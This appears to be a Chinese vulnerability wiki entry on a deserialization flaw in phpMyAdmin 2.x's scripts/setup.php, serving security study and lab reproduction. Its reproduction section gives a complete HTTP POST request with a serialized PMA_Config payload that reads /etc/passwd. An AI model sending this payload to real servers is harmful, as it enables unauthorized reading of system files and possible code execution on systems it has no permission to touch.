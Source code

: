 （WooYun-2016-199433）Phpmyadmin scripts/setup.php 反序列化漏洞
===============================================================

一、漏洞简介
------------

phpmyadmin
2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。

二、漏洞影响
------------

phpmyadmin 2.x

三、复现过程
------------

发送如下数据包，即可读取`/etc/passwd`：

    POST /scripts/setup.php HTTP/1.1
    Host: www.0-sec.org:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 80

    action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

![1.png](/Users/aresx/Documents/VulWiki/.resource/(WooYun-2016-199433)Phpmyadminscripts_setup.php反序列化漏洞/media/rId24.png)

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/phpmyadmin/WooYun-2016-199433/README.zh-cn.md
